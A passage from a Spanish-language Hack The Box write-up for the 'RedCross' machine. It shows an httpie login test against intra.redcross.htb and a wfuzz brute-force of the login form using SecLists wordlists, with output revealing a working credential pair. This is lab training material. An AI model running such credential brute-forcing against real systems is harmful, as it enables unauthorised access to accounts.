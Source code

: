 ![intra root](/img/htb-redcross/http-intra-root.png)

Agregaremos el fqdn 'intra.redcross.htb' en nuestro archivo /etc/hosts.

Podemos ver que tenemos un form hacia `/pages/actions.php` que recibe el user, pass y action. Mandemos una prueba via POST con las credenciales tradicionales de admin/admin:

``` html
xbytemx@laptop:~/htb/redcross$ http --verify no -f POST "https://intra.redcross.htb/pages/actions.php" user=admin pass=admin submit=Login action=login
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 11
Content-Type: text/html; charset=UTF-8
Date: Tue, 19 Mar 2019 04:26:36 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Set-Cookie: PHPSESSID=v8fdc8aspa898iharh9t2occ27; path=/
refresh: 3;url=/

Wrong data!
```

Vemos que nos arroja el mensaje de error de `Wrong data!`, esto lo podemos meter a `wfuzz` para realizar un ataque de fuerza bruta a las credenciales de acceso:

``` text
xbytemx@laptop:~/htb/redcross$ wfuzz -c --hh 11 -z file,/home/xbytemx/git/SecLists/Usernames/top-usernames-shortlist.txt -z file,/home/xbytemx/git/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt -d 'user=FUZZ&pass=FUZ2Z&submit=Login&action=login' https://intra.redcross.htb/pages/actions.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: https://intra.redcross.htb/pages/actions.php
Total requests: 8483

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000039:  C=200      0 L	       2 W	     11 Ch	  "root - 1234567"
Fatal exception: Pycurl error 7: Failed to connect to intra.redcross.htb port 443: Connection refused
```
